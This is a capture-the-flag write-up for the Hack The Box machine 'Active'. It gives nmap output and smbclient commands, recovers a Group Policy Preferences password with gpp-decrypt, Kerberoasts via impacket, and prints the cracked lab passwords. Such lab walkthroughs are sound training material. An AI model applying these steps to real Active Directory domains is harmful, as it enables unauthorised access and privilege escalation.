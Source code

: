 ```yaml
---
title: Active
layout: post
author: Bit Criminals Team
date: 2021-08-02 14:30:00 +0530
type: Pentesting
difficulty: Easy
prompt: https://app.hackthebox.eu/machine/Active
---
```


## STEP_1 ==> NMAP Scan

```bash
└─$ nmap -sV 10.10.10.100 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-02 14:41 IST
Nmap scan report for 10.10.10.100
Host is up (0.18s latency).
Not shown: 983 closed ports
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-08-02 09:24:59Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 79.08 seconds
```

## STEP_2 ==> Enumeration

```bash
smbclient -L 10.10.10.100
```
![](/images/2.png) 

  
## STEP_3 ==> Connect to the Replication

```bash
smbclient //10.10.10.100/Replication
```

We find that Groups.xml contains an encrypted password of username SVC_TGS.

![](/images/3.png) 


## STEP_4 ==> Cracking the encryption

The private key was released by Microsoft so it can be decrypted from the built in kali tool `/usr/bin/gpp-decrypt`

![](/images/pass_crack.png)

```Password-GPPstillStandingStrong2k18```


 ## STEP_5 ==> Getting User.txt

From above credential we login as user - SVC_TGS
```bash
smbclient //10.10.10.100/Users -U SVC_TGS
```

![](/images/user.png)


## STEP_6 ==> Privilege Escalation

In nmap scanning result we saw port 88 was open for Kerberos therfore some SPN is associated.

>https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py

![](/images/5.png)


## STEP_7 ==> Cracking the hash

![](/images/6.png)
```Password-Ticketmaster1968```

## STEP_8 ==> Login as administrator

```bash
smbclient //10.10.10.100/C$ -U active.htb\\administrator
```

![](/images/7.png)


## STEP_9 ==> root.txt

` /Users/Administrator/Desktop`
  
![](/images/8.png)

![](/images/root.png)